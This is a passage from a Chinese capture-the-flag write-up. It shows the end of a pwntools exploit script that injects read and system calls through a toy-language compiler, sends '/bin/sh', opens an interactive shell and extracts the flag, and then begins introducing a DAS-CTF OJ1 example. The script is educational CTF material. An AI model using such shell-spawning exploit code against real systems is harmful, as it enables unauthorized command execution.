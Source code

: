 ```
        # get_gdb(sh)
        sh.sendline(payload)
        sleep(0.5)

        payload = """
        def read(x y z)
            if m &lt; 3 then
                1
            else
                0=1

        def system(x)
            if m &lt; 3 then
                1
            else
                0=1

        read(0, 1048576, 10);
        system(1048576);
        """
        sh.recvuntil('ready&gt; ')
        sh.sendline(payload)
        sh.recvuntil('ready&gt; ')
        sh.sendline('/bin/shx00')
        sh.interactive()
        flag=get_flag(sh)
        # try:
        #     Multi_Attack()
        # except:
        #     throw('Multi_Attack_Err')
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-20-144113.png)



## 0x08 以 2020 DAS-CTF OJ1 为例

> 安恒月赛的题目为闭源信息，本例题不会给出任何形式的附件下载地址
